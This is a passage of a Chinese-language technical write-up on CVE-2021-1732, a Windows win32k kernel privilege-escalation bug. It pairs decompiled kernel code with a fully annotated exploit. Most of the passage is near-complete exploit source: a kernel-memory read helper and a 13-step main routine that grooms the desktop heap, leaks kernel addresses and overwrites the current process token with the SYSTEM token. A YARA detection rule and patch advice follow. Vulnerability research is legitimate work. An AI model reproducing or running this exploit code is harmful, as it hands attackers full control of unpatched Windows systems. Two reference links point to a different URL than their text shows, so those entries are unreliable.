

从 `win32kfull.sys!xxxGetMenuBarInfo` 中可以看出来为什么可以通过 `GetMenuBarInfo` 读取任意内核地址数据：

```cpp
__int64 __fastcall xxxGetMenuBarInfo(ULONG_PTR ptagWND, int idObject, int idItem, MENUBARINFO *pmbi)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]
 
  one = idItem;                                 // idIteam
  SmartObjStackRefBase<tagMENU>::Init(spMenuk, 0i64);
  v8 = 0i64;
  zero = 0i64;
  SmartObjStackRefBase<tagPOPUPMENU>::Init(v53, 0i64);
  if ( pmbi->cbSize != 0x30 )                   // pmbi->cbSize必须是sizeof(MENUBARINFO)
  {
    UserSetLastError(0x57i64);
    goto LABEL_30;
  }
  v9 = 1;
  *&pmbi->rcBar.left = 0i64;
  *&pmbi->rcBar.right = 0i64;
  *(&pmbi[1].rcBar.right + 1) &= 0xFFFFFFFC;
  *&pmbi->fBarFocused = 0i64;
  *(&pmbi[1].rcBar.left + 1) = 0i64;
  ptagWNDk = *(ptagWND + 0x28);
  if ( (*(ptagWNDk + 0xE8) & 0x8000000) != 0 )
  {
    v12 = GetWindowDpiLastNotify(ptagWND);
  }
  else if ( (*(ptagWNDk + 0x120) & 0xF) == 0
         && (v11 = *(*(ptagWND + 0x10) + 0x1C0i64)) != 0
         && (*(**(v11 + 8) + 0x40i64) & 1) != 0 )
  {
    v12 = 0x60;
  }
  else
  {
    v12 = *(*(*(ptagWND + 0x10) + 0x1A0i64) + 0x11Ci64);
  }
  if ( idObject == 0xFFFFFFFD )                 // 如果idObject = -3
  {
    if ( (*(ptagWNDk + 0x1F) & 0x40) == 0 )     // ptagWNDk->dwStyle+7必须包含0x40
    {
      spMenu = *(ptagWND + 0x90);
      if ( spMenu )
      {
        zero = 0i64;
        SmartObjStackRefBase<tagMENU>::operator=(spMenuk, spMenu);
        if ( SmartObjStackRef<tagMENU>::operator bool(spMenuk)// 必须满足0<=idItem<=spMenuk->unknown1->cItems
          && one >= 0
          && one <= *(*(*spMenuk[0] + 0x28i64) + 0x2Ci64) )
        {
          _spMenu = zero;
          if ( !zero )
            _spMenu = *spMenuk[0];
          *&pmbi->fBarFocused = *_spMenu;
          if ( *(*spMenuk[0] + 0x40i64) && *(*spMenuk[0] + 0x44i64) )// ptagWND->spMenu->unknown2 && ptagWND->spMenu->unknown3
          {
            if ( one )
            {
              _ptagWNDk = *(ptagWND + 0x28);
              n60 = 0x60 * one;
              rgItems = *(*spMenuk[0] + 0x58i64);
              _rgItems = *(0x60 * one + rgItems - 0x60);// ptagWND->spMenu->rgItems 是待读取的目标地址指针
              if ( (*(_ptagWNDk + 0x1A) & 0x40) != 0 )// ptagWND->ptagWNDk->dwStyle 包含 WS_CHILD 标志
              {
                top = *(_ptagWNDk + 0x60) - *(_rgItems + 0x40);
                pmbi->rcBar.right = top;
                pmbi->rcBar.left = top - *(*(n60 + rgItems - 0x60) + 0x48i64);// pmbi->rcBar->left = mbi.rcBar.top - (pAddress+0x8)
              }
              else                              // ptagWND->ptagWNDk->dwStyle 不包含 WS_CHILD 标志
              {
                left = *(_rgItems + 0x40) + *(_ptagWNDk + 0x58);
                pmbi->rcBar.left = left;        // pmbi->rcbar.left = *pAddress + *(ptagWND->ptagWNDk->rectLeft)，pAddress是要读取的目标地址
                pmbi->rcBar.right = left + *(*(n60 + rgItems - 0x60) + 0x48i64);// pmbi->rcbar.right = pmbi->rcbar.left + *(pAddress+8)
              }
              top_1 = *(*(ptagWND + 0x28) + 0x5Ci64) + *(*(n60 + rgItems - 0x60) + 0x44i64);
              pmbi->rcBar.top = top_1;          // pmbi->rcBar.top = *(ptagWND->ptagWNDk->rectTop) + *(pAddress+4)
              bottom = top_1 + *(*(n60 + rgItems - 0x60) + 0x4Ci64);// pmbi->rcBar.bottom = pmbi->rcBar.top + *(pAddress+0xC)
            }
            else
            {
              v15 = GetWindowBordersForDpi(*(*(ptagWND + 0x28) + 0x1Ci64), *(*(ptagWND + 0x28) + 0x18i64));
              _ptagWNDK = *(ptagWND + 0x28);
              if ( (*(_ptagWNDK + 0x1A) & 0x40) != 0 )
              {
                pmbi->rcBar.right = *(_ptagWNDK + 0x60) - v15;
                pmbi->rcBar.left = pmbi->rcBar.right - *(*spMenuk[0] + 0x40i64);
              }
              else
              {
                v17 = *(_ptagWNDK + 0x58);
                v18 = spMenuk[0];
                pmbi->rcBar.left = v15 + v17;
                pmbi->rcBar.right = pmbi->rcBar.left + *(*v18 + 0x40i64);
              }
              pmbi->rcBar.top = v15 + *(*(ptagWND + 0x28) + 0x5Ci64);
              v19 = *(ptagWND + 0x28);
              if ( (*(v19 + 0x10) & 8) != 0 )
                pmbi->rcBar.top += GetDpiDependentMetric(((*(v19 + 0x18) >> 7) & 0x14u) + 2, v12);
              bottom = pmbi->rcBar.top + *(*spMenuk[0] + 0x44i64);
            }
            pmbi->rcBar.bottom = bottom;        // pmbi->rcBar.bottom = pmbi->rcBar.top + *(pAddress+0xC)
          }
          v21 = *(*(ptagWND + 0x10) + 0x258i64);
          if ( v21 )
            v22 = *v21;
          else
            v22 = 0i64;
          SmartObjStackRefBase<tagPOPUPMENU>::operator=(v53, v22);
          if ( !*v53[0] || (**v53[0] & 2) == 0 || (**v53[0] & 4) != 0 )
            goto LABEL_27;
          goto LABEL_60;
        }
      }
    }
LABEL_30:
    v9 = 0;
    goto LABEL_27;
  }
  //...
}
```

我在里面加了很多注释，可以很容易的理解 EXP 中的任意读函数原理：

```cpp
void ReadKernelMemoryQQWORD(ULONG_PTR pAddress, ULONG_PTR &ululOutVal1, ULONG_PTR &ululOutVal2)
{
    MENUBARINFO mbi = { 0 };
    mbi.cbSize = sizeof(MENUBARINFO);
 
    RECT Rect = { 0 };
    GetWindowRect(g_hWnd[1], &Rect);
 
    *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = pAddress - 0x40; //0x44 xItem
    GetMenuBarInfo(g_hWnd[1], -3, 1, &mbi);
 
    BYTE pbKernelValue[16] = { 0 };
    *(DWORD*)(pbKernelValue) = mbi.rcBar.left - Rect.left;
    *(DWORD*)(pbKernelValue + 4) = mbi.rcBar.top - Rect.top;
    *(DWORD*)(pbKernelValue + 8) = mbi.rcBar.right - mbi.rcBar.left;
    *(DWORD*)(pbKernelValue + 0xc) = mbi.rcBar.bottom - mbi.rcBar.top;
 
    ululOutVal1 = *(ULONG_PTR*)(pbKernelValue);
    ululOutVal2 = *(ULONG_PTR*)(pbKernelValue + 8);
}
```

### 6. 分析总结

通过上面的分析可知：

1. 通过 hook `user32!_xxxClientAllocWindowClassExtraBytes` 调用 `NtCallbackReturn` 设置 `pExtraBytes` 的值，该值保存用户层内存地址或相对内核堆基址的偏移
2. 通过 `SetWindowLong` 可以修改 `pExtraBytes` 指向的内存数据
3. 通过 `ConsoleControl` 可以控制 `dwExtraFlag |= 0x800`，该值决定 `SetWindowLong` 写数据时的寻址方式
4. `cbWndExtra` 可以在注册窗口类时指定，可以理解为扩展内存大小，利用 `SetWindowLong` 写数据时要保证偏移量 `nIndex` 小于这个值

通过这 4 项进行配合，可以达到内核堆内存任意写入的效果。

引用@iamelli0t的图概括：



最后，利用 `GetMenuBarInfo` 函数的任意读，就可以获取到 system 进程的 access token，利用任意写将 token 覆盖到当前进程中完成最终的提权。

## 七、EXP 解读

主函数代码不长，共 13 个步骤，我直接在里面加了比较详细的注释：

```cpp
int APIENTRY wWinMain(_In_ HINSTANCE hInstance,
    _In_opt_ HINSTANCE hPrevInstance,
    _In_ LPWSTR    lpCmdLine,
    _In_ int       nCmdShow)
{
    UNREFERENCED_PARAMETER(hPrevInstance);
    UNREFERENCED_PARAMETER(lpCmdLine);
 
    // 1. 重定向标准输入输出到控制台
    AllocConsole();
    FILE* tempFile = nullptr;
    freopen_s(&tempFile, "conin$", "r+t", stdin);
    freopen_s(&tempFile, "conout$", "w+t", stdout);
    // end of 1
 
    // 2. 打印系统版本信息，在1809上测试通过
    typedef void(WINAPI* FRtlGetNtVersionNumbers)(DWORD*, DWORD*, DWORD*);
    DWORD dwMajorVer, dwMinorVer, dwBuildNumber = 0;
    FRtlGetNtVersionNumbers fRtlGetNtVersionNumbers = (FRtlGetNtVersionNumbers)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlGetNtVersionNumbers");
    fRtlGetNtVersionNumbers(&dwMajorVer, &dwMinorVer, &dwBuildNumber);
    dwBuildNumber &= 0x0ffff;
 
    std::cout << "Example CVE-2021-1732 Exp working in windows 10 1809(17763).\n";
    std::cout << "Current system version:\n";
    std::cout << "  MajorVer:" << dwMajorVer << " MinorVer:" << dwMinorVer << " BuildNumber:" << dwBuildNumber << std::endl;
    system("pause");
    // end of 2
 
    // 3. 加载所有用到的API函数
    g_fNtUserConsoleControl = (FNtUserConsoleControl)GetProcAddress(GetModuleHandle(L"win32u.dll"), "NtUserConsoleControl");
    g_fFNtCallbackReturn = (FNtCallbackReturn)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCallbackReturn");
    g_fRtlAllocateHeap = (RtlAllocateHeap)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlAllocateHeap");
    // end of 3
 
    // 4. 备份并hook user32!xxxClientAllocWindowClassExtraBytes和user32!xxxClientFreeWindowClassExtraBytes
    ULONG_PTR pKernelCallbackTable = (ULONG_PTR) *(ULONG_PTR*)(__readgsqword(0x60) + 0x58); //PEB->KernelCallbackTable
    g_fxxxClientAllocWindowClassExtraBytes = (FxxxClientAllocWindowClassExtraBytes)*(ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3D8);
    g_fxxxClientFreeWindowClassExtraBytes = (FxxxClientFreeWindowClassExtraBytes) * (ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3E0);
    DWORD dwOldProtect = 0;
    VirtualProtect((PBYTE)pKernelCallbackTable + 0x3D8, 0x400, PAGE_EXECUTE_READWRITE, &dwOldProtect);
    *(ULONG_PTR *)((PBYTE)pKernelCallbackTable + 0x3D8) = (ULONG_PTR)MyxxxClientAllocWindowClassExtraBytes;
    *(ULONG_PTR *)((PBYTE)pKernelCallbackTable + 0x3E0) = (ULONG_PTR)MyxxxClientFreeWindowClassExtraBytes;
    VirtualProtect((PBYTE)pKernelCallbackTable + 0x3D8, 0x400, dwOldProtect, &dwOldProtect);
    // end of 4
 
    // 5. 通过 IsMenu 找到 HmValidateHandle 函数地址
    FindHMValidateHandle(&fHMValidateHandle);
    // end of 5
 
    // 6. 注册两个窗口类
    //    1）这两个窗口类除了类名唯一不一样的地方就是cbWndExtra，代表扩展内存的大小
    ATOM atom1, atom2 = 0;
 
    WNDCLASSEX WndClass = { 0 };
    WndClass.cbSize = sizeof(WNDCLASSEX);
    WndClass.lpfnWndProc = DefWindowProc;
    WndClass.style = CS_VREDRAW| CS_HREDRAW;
    WndClass.cbWndExtra = 0x20;
    WndClass.hInstance = hInstance;
    WndClass.lpszMenuName = NULL;
    WndClass.lpszClassName = L"Class1";
    atom1 = RegisterClassEx(&WndClass);
 
    WndClass.cbWndExtra = g_dwMyWndExtra;
    WndClass.hInstance = hInstance;
    WndClass.lpszClassName = L"Class2";
    atom2 = RegisterClassEx(&WndClass);
    // end of 6
 
    // 7. 构造内核堆内存布局
    ULONG_PTR dwpWnd0_to_pWnd1_kernel_heap_offset = 0;
    for (int nTry = 0; nTry < 5; nTry++) {
        HMENU hMenu = NULL;
        HMENU hHelpMenu = NULL;
 
        // 7.1 创建50个窗口，都绑定窗口类Class1，这样会在内核桌面堆中分配50块相同的空间保存窗口菜单、样式等信息
        //     1）通过 HMValidateHandle 可将tagWnd的内核地址泄漏出来
        //     2）窗口扩展内存默认是被分配在用户空间上的，而不是内核堆上
        for (int i = 0; i < 50; i++) {
            if (i == 1) {
                hMenu = CreateMenu();
                hHelpMenu = CreateMenu();
 
                AppendMenu(hHelpMenu, MF_STRING, 0x1888, TEXT("about"));
                AppendMenu(hMenu, MF_POPUP, (LONG)hHelpMenu, TEXT("help"));
            }
            g_hWnd[i] = CreateWindowEx(NULL, L"Class1", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, hMenu, hInstance, NULL);
            g_pWnd[i] = (ULONG_PTR)fHMValidateHandle(g_hWnd[i], 1); //Get leak kernel mapping desktop heap address
        }
        // end of 7.1
 
        // 7.2 释放掉后面48个窗口，只留前2个，窗口堆空间也会随之释放
        for (int i = 2; i < 50; i++) {
            if (g_hWnd[i] != NULL) {
                DestroyWindow((HWND)g_hWnd[i]);
            }
        }
        // end of 7.2
 
        // 7.3 获取前两个窗口的ptagWNDk相对于内核堆基址的偏移，在ptagWNDk+0x8的位置获取
        g_dwpWndKernel_heap_offset0 = *(ULONG_PTR*)((PBYTE)g_pWnd[0] + g_dwKernel_pWnd_offset);
        g_dwpWndKernel_heap_offset1 = *(ULONG_PTR*)((PBYTE)g_pWnd[1] + g_dwKernel_pWnd_offset);
        // end of 7.3
 
        // 7.4 调用NtUserConsoleControl后，窗口0会发生如下变化：
        //     1）dwExtraFlag上会被添加0x800，意味着启用偏移寻址
        //     2）重新在内核堆上分配窗口的扩展内存，并将相对于内核堆基址的偏移设置到pExtraBytes
        ULONG_PTR ChangeOffset = 0;
        ULONG_PTR ConsoleCtrlInfo[2] = { 0 };
        ConsoleCtrlInfo[0] = (ULONG_PTR)g_hWnd[0];
        ConsoleCtrlInfo[1] = (ULONG_PTR)ChangeOffset;
        NTSTATUS ret1 = g_fNtUserConsoleControl(6, (ULONG_PTR)&ConsoleCtrlInfo, sizeof(ConsoleCtrlInfo));
        // end of 7.4
 
        // 7.5 获取窗口0扩展内存的偏移pExtraBytes
        dwpWnd0_to_pWnd1_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);
        // end of 7.5
 
        // 7.6 判断窗口0扩展内存的偏移是否比窗口1的ptagWNDk的偏移靠前
        //     1）后面要用 SetWindowLongPtr 越界读写窗口1数据，通过传入参数 nIndex，可以修改 ptagWNDk0->pExtraBytes+nIndex 位置指向的数据
        //     2）ptagWNDk0->pExtraBytes + dwpWnd0_to_pWnd1_kernel_heap_offset 的位置是 ptagWNDk1
        //     2）要求 nIndex >= 0，所以 ptagWNDk0->pExtraBytes < g_dwpWndKernel_heap_offset1 = ptagWNDK1 - kernel_heap_base_addr
        if (dwpWnd0_to_pWnd1_kernel_heap_offset < g_dwpWndKernel_heap_offset1) {
            dwpWnd0_to_pWnd1_kernel_heap_offset = (g_dwpWndKernel_heap_offset1 - dwpWnd0_to_pWnd1_kernel_heap_offset);
            break;
        }
        else {
            //:warning SetWindowLongPtr nIndex can't < 0; continue to try
            if (g_hWnd[0] != NULL) {
                DestroyWindow((HWND)g_hWnd[0]);
            }
            if (g_hWnd[1] != NULL) {
                DestroyWindow((HWND)g_hWnd[1]);
 
                if (hMenu != NULL) {
                    DestroyMenu(hMenu);
                }
                if (hHelpMenu != NULL) {
                    DestroyMenu(hHelpMenu);
                }
            }
        }
        dwpWnd0_to_pWnd1_kernel_heap_offset = 0;
        // end of 7.6
    }
    if (dwpWnd0_to_pWnd1_kernel_heap_offset == 0) {
        std::cout << "Memory layout fail. quit" << std::endl;
        system("pause");
        return 0;
    }
    // end of 7
 
    // 8. 创建窗口2，绑定窗口类Class2，受MyxxxClientAllocWindowClassExtraBytes的影响：
    //   1）窗口2的扩展内存是直接分配在内核堆上的
    //   2）ptagWND2->dwExtraFlag 已经加上了 0x800
    //   3）之后SetWindowLong使用ptagWND2->dwExtraBytes偏移寻址
    //   4）ptagWND2->dwExtraBytes = g_dwpWndKernel_heap_offset0 = ptagWNDK0 - kernel_heap_base_addr
    HWND hWnd2 = CreateWindowEx(NULL, L"Class2", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, NULL, hInstance, NULL);
    PVOID pWnd2 = fHMValidateHandle(hWnd2, 1); // Get leak kernel mapping desktop heap address
    // end of 8
 
    // 9. 将ptagWNDk0->cbWndExtra调成0x0FFFFFFFF，避免之后越界写的时候偏移超出范围导致失败
    //    1）为什么不直接在注册窗口类的时候直接设置成0x0FFFFFFFF？
    //       因为调用CreateWindowEx时会分配cbWndExtra大小的内存，不想内存撑爆就得通过SetWindowLong进行越界修改
    SetWindowLong(hWnd2, g_cbWndExtra_offset, 0x0FFFFFFFF); //Modify cbWndExtra to large value
    // end of 9
 
    /* 到此，就可以利用SetWindowLongPtr和窗口0对内核堆空间进行越界写了，下面是关于如何利用窗口1读取任意内核堆地址*/
 
    // 10. 构造一个菜单结构g_pMyMenu，构造这个的原因有以下几点：
    //     1）ReadKernelMemoryQQWORD中会利用g_pMyMenu + 0x58进行内核数据任意读
    //     2）利用SetWindowLongPtr和g_pMyMenu可以泄漏内核地址出来
    {
        // 10.1 设置窗口1样式属性WS_CHILD，这是进行10.3操作的必要条件
        ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
        ululStyle |= 0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify add style WS_CHILD
        // end of 10.1
 
        // 10.2 构造g_pMyMenu结构
        g_pMyMenu = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0xA0);
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x98) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x20);
        **(ULONG_PTR**)((PBYTE)g_pMyMenu + 0x98) = g_pMyMenu;
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x200);
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x8); //rgItems 1
        *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) + 0x2C) = 1; //cItems 1
        *(DWORD*)((PBYTE)g_pMyMenu + 0x40) = 1;
        *(DWORD*)((PBYTE)g_pMyMenu + 0x44) = 2;
        *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = 0x4141414141414141;
        // end of 10.2
 
        // 10.3 利用SetWindowLongPtr的GWLP_ID(-12)号功能设置窗口1的菜单为10.2构造的g_pMyMenu，同时会返回旧的菜单地址ptagWND->spMenu，该地址是内核堆地址（可以参考tagWnd结构）
        ULONG_PTR pSPMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)g_pMyMenu); //Return leak kernel address and set fake spmenu memory
        //pSPMenu leak kernel address, good!!!
        // end of 10.3
 
        // 10.4 还原窗口1的样式属性
        ululStyle &= ~0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify Remove Style WS_CHILD
        // end of 10.4
    }
    // end of 10
 
    ULONG_PTR ululValue1 = 0, ululValue2 = 0;
 
    // 11. 从ptagWND->spMenu->unknown0->unknown->pEPROCESS处读取eprocess信息
    //     1）ReadKernelMemoryQQWORD函数可以读取指定内核地址处的16字节的数据，uluValue1保存前面8字节，vluValue2保存后面8字节
    ReadKernelMemoryQQWORD(pSPMenu + 0x18, ululValue1, ululValue2);
    ReadKernelMemoryQQWORD(ululValue1 + 0x100, ululValue1, ululValue2);
    ReadKernelMemoryQQWORD(ululValue1, ululValue1, ululValue2);
 
    ULONG_PTR pMyEProcess = ululValue1;
    std::cout<< "Get current kernel eprocess: " << pMyEProcess << std::endl;
    // end of 11
 
    // 12. 从eprocess中读取4号进程的access token，复制到我们当前的进程中实现提权
    ULONG_PTR pSystemEProcess = 0;
 
    ULONG_PTR pNextEProcess = pMyEProcess;
    for (int i = 0; i < 500; i++) {
        ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_ActiveProcessLinks_offset, ululValue1, ululValue2);
        pNextEProcess = ululValue1 - g_dwEPROCESS_ActiveProcessLinks_offset;
 
        ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_UniqueProcessId_offset, ululValue1, ululValue2);
 
        ULONG_PTR nProcessId = ululValue1;
        if (nProcessId == 4) { // System process id
            pSystemEProcess = pNextEProcess;
            std::cout << "System kernel eprocess: " << std::hex << pSystemEProcess << std::endl;
 
            ReadKernelMemoryQQWORD(pSystemEProcess + g_dwEPROCESS_Token_offset, ululValue1, ululValue2);
            ULONG_PTR pSystemToken = ululValue1;
 
            ULONG_PTR pMyEProcessToken = pMyEProcess + g_dwEPROCESS_Token_offset;
 
            //Write kernel memory
            LONG_PTR old = SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pMyEProcessToken);
            SetWindowLongPtr(g_hWnd[1], 0, (LONG_PTR)pSystemToken);  //Modify offset to memory address
            SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)old);
            break;
        }
    }
    // end of 12
 
    // 13. Recovery bug(恢复内存结构，防止蓝屏)
    g_dwpWndKernel_heap_offset2 = *(ULONG_PTR*)((PBYTE)pWnd2 + g_dwKernel_pWnd_offset);
    ULONG_PTR dwpWnd0_to_pWnd2_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);
    if (dwpWnd0_to_pWnd2_kernel_heap_offset < g_dwpWndKernel_heap_offset2) {
        dwpWnd0_to_pWnd2_kernel_heap_offset = (g_dwpWndKernel_heap_offset2 - dwpWnd0_to_pWnd2_kernel_heap_offset);
 
        DWORD dwFlag = *(ULONGLONG*)((PBYTE)pWnd2 + g_dwModifyOffsetFlag_offset);
        dwFlag &= ~0x800;
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffsetFlag_offset, dwFlag);  //Modify remove flag
 
        PVOID pAlloc = g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, g_dwMyWndExtra);
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pAlloc);  //Modify offset to memory address
 
 
        ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
        ululStyle |= 0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify add style WS_CHILD
 
        ULONG_PTR pMyMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)pSPMenu);
        //free pMyMenu
 
        ululStyle &= ~0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify Remove Style WS_CHILD
 
        std::cout << "Recovery bug prevent blue screen." << std::endl;
    }
    // end of 13
 
    DestroyWindow(g_hWnd[0]);
    DestroyWindow(g_hWnd[1]);
    DestroyWindow(hWnd2);
     
    if (pSystemEProcess != NULL) {
        std::cout << "CVE-2021-1732 Exploit success, system permission" << std::endl;
    }
    else {
        std::cout << "CVE-2021-1732 Exploit fail" << std::endl;
    }
    system("pause");
 
    return (int)0;
}
```

## 八、Yara 规则

摘自 [安恒](https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/)：

```yara
rule apt_bitter_win32k_0day {
    meta:
        author = "dbappsecurity_lieying_lab"
        data = "01-01-2021"
 
    strings:
        $s1 = "NtUserConsoleControl" ascii wide
        $s2 = "NtCallbackReturn" ascii wide
        $s3 = "CreateWindowEx" ascii wide
        $s4 = "SetWindowLong" ascii wide
 
        $a1 = {48 C1 E8 02 48 C1 E9 02 C7 04 8A}
        $a2 = {66 0F 1F 44 00 00 80 3C 01 E8 74 22 FF C2 48 FF C1}
        $a3 = {48 63 05 CC 69 05 00 8B 0D C2 69 05 00 48 C1 E0 20 48 03 C1}
 
    condition:
        uint16(0) == 0x5a4d and all of ($s*) and 1 of ($a*)
}
```

## 九、修复建议

- 升级系统版本
- 参考 [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1732](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1732) 安装对应系统补丁

## 十、参考链接

- [https://www.anquanke.com/post/id/241804](https://www.anquanke.com/post/id/241804)
- [https://www.secrss.com/articles/29758](https://www.anquanke.com/post/id/241804)
- [https://bbs.pediy.com/thread-266362.htm](https://www.anquanke.com/post/id/241804)
- [https://paper.seebug.org/1574/](https://paper.seebug.org/1574/)
- [https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/](https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/)
- [https://github.com/k-k-k-k-k/CVE-2021-1732](https://github.com/k-k-k-k-k/CVE-2021-1732)
- [https://github.com/KaLendsi/CVE-2021-1732-Exploit](https://github.com/KaLendsi/CVE-2021-1732-Exploit)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1732](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1732)
